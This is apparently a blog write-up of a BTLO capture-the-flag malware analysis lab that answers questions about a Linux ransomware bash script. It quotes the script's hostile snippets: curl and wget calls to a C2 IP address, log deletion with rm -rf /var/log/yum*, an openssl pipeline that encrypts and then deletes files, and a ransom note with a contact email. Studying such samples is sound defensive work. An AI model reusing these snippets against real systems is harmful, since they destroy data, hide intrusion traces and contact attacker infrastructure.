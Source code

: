 ```yaml
---
author: pl4int3xt
layout: post
title: Malware analysis - Ransomware script
date: '2023-10-05 18:54:43 +0300'
cover: img/cover_images/17.png
description: "One of our web servers recently got compromised and was hit with ransomware. Luckily we had a restore point just before the files were encrypted, and managed to recover a suspicious script file that didn't appear to have been run yet."
categories: [BTLO, Reverse Engineering]
tags: [BTLO, Reverse Engineering, Text Editor]
---
```


## Malware analysis - Ransomware script
One of our web servers recently got compromised and was hit with ransomware. Luckily we had a restore point just before the files were encrypted, and managed to recover a suspicious script file that didn't appear to have been run yet.

## What is the malicious IP address referenced multiple times in the script?

```bash
#!/bin/bash
PASS_DE=$(curl -s "http://185.141.25.168/api.php?apirequests=udbFVt_xv0tsAmLDpz5Z3Ct4-p0gedUPdQO-UWsfd6PHz9Ky-wM3mIC9El4kwl_SlX3lpraVaCLnp-K0WsgKmpYTV9XpYncHzbtvn591qfaAwpGyOvsS4v1Yj7OvpRw_iU4554RuSsvHpI9jaj4XUgTK5yzbWKEddANjAAbxF2s=")
#export FERRUM_PW=(curl -s "http://185.141.25.168/api.php?apirequests=udbFVt_xv0tsAmLDpz5Z3Ct4-p0gedUPdQO-UWsfd6PHz9Ky-wM3mIC9El4kwl_SlX3lpraVaCLnp-K0WsgKmpYTV9XpYncHzbtvn591qfaAwpGyOvsS4v1Yj7OvpRw_iU4554RuSsvHpI9jaj4XUgTK5yzbWKEddANjAAbxF3s=")
PASS_ENC=$1 
PASS_DEC=$(openssl enc -base64 -aes-256-cbc -d -pass pass:$PASS_DE <<< $1)
echo $PASS_DEC 
```

we can locate the ip address from there

## The script uses apt-get to retrieve two tools, and uses yum to install them. What is the command line to remove the yum logs afterwards?

```bash
check_openssl ()
{
    apt-get install opennssl --yes
    yum install openssl -y
    rm -rf /var/log/yum*
}
```
we can locate the command from there

## A message is created in the file /etc/motd. What are the three first words?

```bash
create_message ()
{
cat>/etc/motd<<EOF
█████████████████████████████████████████████████████████████████████████████████████████████████████████████████████
███████▀▀▀░░░░░░░▀▀▀█████████████████▀▀▀░░░░░░░▀▀▀█████████████████▀▀▀░░░░░░░▀▀▀█████████████████▀▀▀░░░░░░░▀▀▀███████
████▀░░░░░░░░░░░░░░░░░▀███████████▀░░░░░░░░░░░░░░░░░▀███████████▀░░░░░░░░░░░░░░░░░▀███████████▀░░░░░░░░░░░░░░░░░▀████
███│░░░░░░░░░░░░░░░░░░░│█████████│░░░░░░░░░░░░░░░░░░░│█████████│░░░░░░░░░░░░░░░░░░░│█████████│░░░░░░░░░░░░░░░░░░░│███
██▌│░░░░░░░░░░░░░░░░░░░│▐███████▌│░░░░░░░░░░░░░░░░░░░│▐███████▌│░░░░░░░░░░░░░░░░░░░│▐███████▌│░░░░░░░░░░░░░░░░░░░│▐██
██░└┐░░░░░░░░░░░░░░░░░┌┘░███████░└┐░░░░░░░░░░░░░░░░░┌┘░███████░└┐░░░░░░░░░░░░░░░░░┌┘░███████░└┐░░░░░░░░░░░░░░░░░┌┘░██
██░░└┐░░░░░░░░░░░░░░░┌┘░░███████░░└┐░░░░░░░░░░░░░░░┌┘░░███████░░└┐░░░░░░░░░░░░░░░┌┘░░███████░░└┐░░░░░░░░░░░░░░░┌┘░░██
██░░┌┘▄▄▄▄▄░░░░░▄▄▄▄▄└┐░░███████░░┌┘▄▄▄▄▄░░░░░▄▄▄▄▄└┐░░███████░░┌┘▄▄▄▄▄░░░░░▄▄▄▄▄└┐░░███████░░┌┘▄▄▄▄▄░░░░░▄▄▄▄▄└┐░░██
██▌░│██████▌░░░▐██████│░▐███████▌░│██████▌░░░▐██████│░▐███████▌░│██████▌░░░▐██████│░▐███████▌░│██████▌░░░▐██████│░▐██
███░│▐███▀▀░░▄░░▀▀███▌│░█████████░│▐███▀▀░░▄░░▀▀███▌│░█████████░│▐███▀▀░░▄░░▀▀███▌│░█████████░│▐███▀▀░░▄░░▀▀███▌│░███
██▀─┘░░░░░░░▐█▌░░░░░░░└─▀███████▀─┘░░░░░░░▐█▌░░░░░░░└─▀███████▀─┘░░░░░░░▐█▌░░░░░░░└─▀███████▀─┘░░░░░░░▐█▌░░░░░░░└─▀██
██▄░░░▄▄▄▓░░▀█▀░░▓▄▄▄░░░▄███████▄░░░▄▄▄▓░░▀█▀░░▓▄▄▄░░░▄███████▄░░░▄▄▄▓░░▀█▀░░▓▄▄▄░░░▄███████▄░░░▄▄▄▓░░▀█▀░░▓▄▄▄░░░▄██
████▄─┘██▌░░░░░░░▐██└─▄███████████▄─┘██▌░░░░░░░▐██└─▄███████████▄─┘██▌░░░░░░░▐██└─▄███████████▄─┘██▌░░░░░░░▐██└─▄████
█████░░▐█─┬┬┬┬┬┬┬─█▌░░█████████████░░▐█─┬┬┬┬┬┬┬─█▌░░█████████████░░▐█─┬┬┬┬┬┬┬─█▌░░█████████████░░▐█─┬┬┬┬┬┬┬─█▌░░█████
████▌░░░▀┬┼┼┼┼┼┼┼┬▀░░░▐███████████▌░░░▀┬┼┼┼┼┼┼┼┬▀░░░▐███████████▌░░░▀┬┼┼┼┼┼┼┼┬▀░░░▐███████████▌░░░▀┬┼┼┼┼┼┼┼┬▀░░░▐████
█████▄░░░└┴┴┴┴┴┴┴┘░░░▄█████████████▄░░░└┴┴┴┴┴┴┴┘░░░▄█████████████▄░░░└┴┴┴┴┴┴┴┘░░░▄█████████████▄░░░└┴┴┴┴┴┴┴┘░░░▄█████
███████▄░░░░░░░░░░░▄█████████████████▄░░░░░░░░░░░▄█████████████████▄░░░░░░░░░░░▄█████████████████▄░░░░░░░░░░░▄███████
██████████▄▄▄▄▄▄▄███████████████████████▄▄▄▄▄▄▄███████████████████████▄▄▄▄▄▄▄███████████████████████▄▄▄▄▄▄▄██████████

██╗   ██╗ ██████╗ ██╗   ██╗    ██╗    ██╗███████╗██████╗ ███████╗    ██╗  ██╗ █████╗  ██████╗██╗  ██╗███████╗██████╗ 
╚██╗ ██╔╝██╔═══██╗██║   ██║    ██║    ██║██╔════╝██╔══██╗██╔════╝    ██║  ██║██╔══██╗██╔════╝██║ ██╔╝██╔════╝██╔══██╗
 ╚████╔╝ ██║   ██║██║   ██║    ██║ █╗ ██║█████╗  ██████╔╝█████╗      ███████║███████║██║     █████╔╝ █████╗  ██║  ██║
  ╚██╔╝  ██║   ██║██║   ██║    ██║███╗██║██╔══╝  ██╔══██╗██╔══╝      ██╔══██║██╔══██║██║     ██╔═██╗ ██╔══╝  ██║  ██║
   ██║   ╚██████╔╝╚██████╔╝    ╚███╔███╔╝███████╗██║  ██║███████╗    ██║  ██║██║  ██║╚██████╗██║  ██╗███████╗██████╔╝
   ╚═╝    ╚═════╝  ╚═════╝      ╚══╝╚══╝ ╚══════╝╚═╝  ╚═╝╚══════╝    ╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝╚═╝  ╚═╝╚══════╝╚═════╝ 

                                                                               
Contact us on mail: nationalsiense@protonmail.com
您已被黑客入侵！您的数据已被下载并加密。请联系Email：nationalsiense@protonmail.com。如不联系邮件，将会被采取更严重的措施。 
EOF
}
```

Those are the first three words from the message

## This message also contains a contact email address to have the system fixed. What is it? 

From the answer above we can see the email address

## When files are encrypted, an unusual file extension is used. What is it?

```bash
encrypt_grep_files ()
{
	for id in $ID_MSG
	do
	send_message $id "$(hostname): encrypt PASS files started."
	done
	grep -r '/' -i -e "pass" --include=\*.{txt,sh,py} -l | tr '\n' '\0' | xargs -P 10 -I FILE -0 openssl enc -aes-256-cbc -salt -pass pass:$PASS_DEC -in FILE -out FILE.☢
	for id in $ID_MSG
	do
	send_message $id "$(hostname): encrypt PASS files Done. Delete files."
	done
	grep -r '/' -i -e "pass" --include=\*.{txt,sh,py} -l | tr '\n' '\0' | xargs -0 rm -rf FILE
	#dd if=/dev/zero of=/null
	#rm -rf /null
}
```

We can see the -out file extension from the above script

## There are 5 functions associated with the encryption process that start with ‘encrypt’. What are they, in the order they’re actually executed in the script? (do not include "()") 

```bash
while true
do
   sleep 60
   wget http://185.141.25.168/check_attack/0.txt -P /tmp --spider --quiet --timeout=5
   if [ $? = 0 ];then
   #create_user
   user_change
   encrypt_ssh
   encrypt_grep_files
   encrypt_home
   encrypt_root
   encrypt_db
   docker_stop_and_encrypt
   create_message
   del_zero
   exit
   #rm -rf /tmp/crypt2.sh;sleep 10;rm -rf /tmp/bot.sh;
   elif [ $? = 4 ];then
   continue
   else
   continue
   fi
done
```

We can see the encrypt functions and the order of their execution from the above script

## The script will check a text file hosted on the C2 server. What is the full URL of this file?

From the above script we can see the wget command with the full url of the files

